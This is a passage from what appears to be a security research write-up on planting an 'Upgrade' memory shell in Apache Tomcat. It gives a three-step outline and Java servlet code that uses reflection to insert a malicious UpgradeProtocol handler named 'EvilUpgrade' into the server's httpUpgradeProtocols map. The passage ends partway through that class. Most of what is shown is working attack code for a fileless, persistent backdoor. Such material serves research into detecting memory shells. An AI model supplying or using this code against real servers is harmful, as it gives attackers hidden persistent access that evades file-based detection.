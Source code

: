## Achievement

### Idea

​ The specific ideas for dynamically registering the `Upgrade` memory horse are as follows:

- Get the `httpUpgradeProtocols` property;
- Create a malicious `upgradeProtocol`;
- Insert the malicious `upgradeProtocol` into `httpUpgradeProtocols`.

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Connector;
import org.apache.coyote.*;
import org.apache.coyote.http11.Http11NioProtocol;
import org.apache.coyote.http11.upgrade.InternalHttpUpgradeHandler;
import org.apache.tomcat.util.net.SocketWrapperBase;

import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.nio.charset.StandardCharsets;
import java.util.HashMap;
import java.util.Scanner;

@WebServlet(name = "UpgradeMemoryShellServlet", value = "/UpgradeMemoryShellServlet")
public class UpgradeMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            Object request1 = getField(request, "request");
            Connector connector = (Connector) getField(request1, "connector");
            Http11NioProtocol protocolHandler = (Http11NioProtocol) getField(connector, "protocolHandler");
            HashMap httpUpgradeProtocols = (HashMap) getField(protocolHandler, "httpUpgradeProtocols");
            httpUpgradeProtocols.put("H3rmesk1t", new EvilUpgrade());
            response.getWriter().println("Upgrade Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    class EvilUpgrade implements UpgradeProtocol {
        @Override
        public String getHttpUpgradeName(boolean isSecure) {
            return null;
        }
```